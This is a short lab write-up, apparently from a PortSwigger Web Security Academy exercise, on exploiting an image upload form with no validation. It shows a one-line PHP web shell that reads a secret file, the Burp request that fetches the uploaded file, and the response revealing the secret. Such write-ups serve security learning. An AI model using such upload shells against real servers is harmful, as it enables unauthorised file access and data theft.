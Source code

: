 *This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: wiener:peter *

I created my exploit file as follows : 
```php 
echo file_get_contents('/home/carlos/secret');
```

Logged in with the given credentials, receiving this page when I clicked on *My account*. 

![[Screenshot 2024-04-30 at 7.15.49 PM.png]]

I uploaded a file and observed the requests made through Burp Intercept. Uploading the file will direct me to this page: 

![[Screenshot 2024-04-30 at 7.19.43 PM.png]]

Heading back to my account will trigger this intercept, where the server fetches my 'image' from the following directory: 
```Burp 
GET /files/avatars/exploit.php HTTP/2
Host: 0a59001f03aae38d81a88409008f002d.web-security-academy.net
Cookie: session=BWQ4BMNXY1INXrXc3cUEYajLQ8HOHMIU
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a59001f03aae38d81a88409008f002d.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
I decided to send this to the Repeater and see the response I would get. I got the following, along with the secret: 
```Burp 
HTTP/2 200 OK
Date: Tue, 30 Apr 2024 11:27:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

xGokTf663mdi8wx85J0lXZQibwWvBBzc
```
